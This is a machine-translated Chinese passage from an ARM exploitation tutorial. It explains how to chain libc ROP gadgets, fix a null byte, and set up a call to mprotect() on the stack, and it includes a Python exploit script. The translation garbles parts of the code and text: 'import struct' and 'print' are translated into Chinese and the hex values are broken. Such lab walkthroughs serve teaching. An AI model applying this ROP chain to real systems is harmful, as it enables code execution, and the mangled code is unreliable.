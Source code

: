 *我们撞上了 bp。这个 pop 会将执行重定向到我们的第一个 rop 小工具。*

*这是一个一个地步进每个小工具的视频。*

*最后，你可以看到所有的参数都被正确地放置在寄存器中(除了 r0 ),并且 pc 已经被“BBBB”覆盖*

*![](img/650b0a34ad5bf46a0875c88c530e6550.png)*

*现在，让我们通过修复空字节并将 mprotect()的地址*

*我们可以使用上一篇文章中的小工具来修复空字节。*

> *0x000fe910:加 r0，r0，# 0x80pop {r3，PC }；*

*这个小工具会把 0x80 加到 r0 上，然后把控制权还回去。所以这里我们需要做的是，我们要放一个值“***0x bedfd 000–0x 80***”。我们的小工具将添加 0x80，并将其恢复为“0xbefdf000”，这是堆栈的实际地址。让我们把这个小工具加入到我们的利用中*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(“AAAA”)# junk
> exp+=(“BBBB”)# mprotect()地址*
> 
> *打印(出口)*
